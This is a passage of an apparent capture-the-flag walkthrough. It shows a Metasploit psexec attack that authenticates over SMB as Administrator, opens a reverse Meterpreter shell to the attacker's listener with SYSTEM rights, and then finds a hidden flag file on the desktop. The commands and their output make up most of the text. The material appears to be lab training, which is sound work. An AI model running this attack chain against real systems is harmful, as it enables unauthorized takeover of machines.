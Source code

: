 ```
   SMBUser               Administrator                                                      no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.15.30      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
   
msf exploit(windows/smb/psexec) > exploit -j -z
[*] Exploit running as background job 2.

[*] Started reverse TCP handler on 10.10.15.30:4444
[*] 10.10.10.63:445 - Connecting to the server...
[*] 10.10.10.63:445 - Authenticating to 10.10.10.63:445 as user 'Administrator'...
[*] 10.10.10.63:445 - Selecting PowerShell target
[*] 10.10.10.63:445 - Executing the payload...
[+] 10.10.10.63:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (179779 bytes) to 10.10.10.63
[*] Meterpreter session 3 opened (10.10.15.30:4444 -> 10.10.10.63:49686) at 2018-05-17 00:18:23 -0400
msf exploit(windows/smb/psexec) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Getting the "Hidden" root.txt

```
meterpreter > cat hm.txt
The flag is elsewhere.  Look deeper
```

We drop into a regular shell, and run a `dir /a` which will show all files with the "hidden" attribute set. 

```
C:\Users\Administrator\Desktop>dir /a

 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
11/03/2017  10:03 PM               282 desktop.ini
12/24/2017  03:51 AM                36 hm.txt
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               3 File(s)          1,115 bytes
               2 Dir(s)   7,032,709,120 bytes free
```